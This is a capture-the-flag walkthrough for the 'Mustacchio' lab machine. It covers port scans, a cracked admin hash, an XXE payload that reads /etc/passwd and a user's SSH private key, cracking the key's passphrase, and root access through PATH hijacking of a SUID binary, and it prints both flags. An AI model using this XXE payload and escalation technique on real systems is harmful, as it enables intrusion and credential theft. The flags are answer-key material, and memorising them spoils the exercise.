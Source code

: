# Mustacchio

* IP = 10.10.108.42

## Questions/Tasks:

* Starting with basic nmap scan to discover open ports in the server:
`nmap -sC -sV -v $IP`
### Nmap Scan Results:
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since there is a website running on port 80, we enumerate hidden directories/files with **gobuster**:
`gobuster -u "http://IP/" -w common.txt`
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/custom (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```
* In the mean time we went to the webpage and we are brought here:<br>
![Screenshot](./assets/1.png)
* The About page:<br>
![Screenshot](./assets/5.png)
* Nothing was interesting as such, the `robots.txt` page showed `Disallow: /` which was also not useful as well.
* The `/custom` directory looked strange, so I visited there; under that directory there were 2 directories:`css` and `js`.
* The `js` directory had these files:<br>
![Screenshot](./assets/2.png)
* The `users.bak` file looked strange, it turned out to be a sqlite database file, so looking into its contents, we found:<br>
![Screenshot](./assets/4.png)
* This `admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b` looked like some login credentials!!
* The hash was successfully cracked and the password was found to be: `bulldog19`.
* Since gobuster also couldn't find any other directories, we initiated another nmap scan over all ports with `-p-`.
### Second scan Results:
```
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* And just like that we found another http port open:`8765`.
* The webpage on that port looks like this:<br>
![Screenshot](./assets/3.png)
* Now login with the above credentials: `admin` and `bulldog19`.
* We're brought here:<br>
![Screenshot](./assets/6.png)
* As the hint says, look at the source code:<br>
![Screenshot](./assets/8.png)
* Now we download the file `/auth/dontforget.bak`, which is actually a XML file:<br>
![Screenshot](./assets/7.png)
* As the source code says, we need to inject xml code into the text area, so we tried out with the above xml code, and got the following Results:<br>
![Screenshot](./assets/9.png)
* We can pretty much guess at this moment that we need to do an XXE injection, we tried some payloads from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection">Payloads All the things</a>, and after some tweaking, this seemed to work:<br>
```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Heisenberg</name>
  <author>Walt</author>
  <com>&file;</com>
</comment>
```
![Screenshot](./assets/10.png)
* Next we tried to change the `file:///etc/passwd` with `file:///home/barry/.ssh/id_rsa`, since the source gave us hints about *SSH* and the user `Barry`; now we get this:<br>
![Screenshot](./assets/11.png)
* Copy the RSA private key, and save in a file `id_rsa`, change the permissions with `chmod 600 id_rsa`; and to break the private key encryption passphrase extract the hash first:`python ssh2john.py id_rsa > hash.txt`, then crack with *John the ripper*:`john hash.txt --wordlist=rockyou.txt`
* The passphrase is successfully cracked as:`urieljames`
* Now ssh into the server with:`ssh -i id_rsa barry@IP`<br>
![Screenshot](./assets/12.png)
* And just like that we get the user flag.


1. What is the user flag?

**Ans-62d77a4d5f97d47c5aa38b3b2651b831**

* Firstly we tried `sudo -l` which didn't work as the user barry can't run sudo commands!
* Next we checked the another user's( i.e Joe's) home folder and found this:<br>
![Screenshot](./assets/13.png)
* Carefully notice the permissions, it has execution permissions for all users and also a SUID binary i.e even if we run it as a low privileged user, our `euid` or `effective user ID` will become root.
* Now, how to know initially what does the binary do?
* Try running `strings` command on it,( the strings command extracts all printable strings from any binary/ascii file ):<br>
![Screenshot](./assets/14.png)
* So, probably from the output we can guess that the binary runs the C function `system()` and executes the command:`tail -f /var/log/nginx/access.log`
* Notice that the tail command has no absolute path, hence we can make an executable with same name (tail) and add it to path:<br>
* Create your own script to elevate privileges, name it as `tail`, mark it executable with:`chmod +x tail` and finally add to path with:
```bash
export PATH=$PWD:$PATH
```
* And just like that we get a root privileged shell:<br>
![Screenshot](./assets/15.png)

2. What is the root flag?

**Ans-3223581420d906c4dd1a5f9b530393a5**
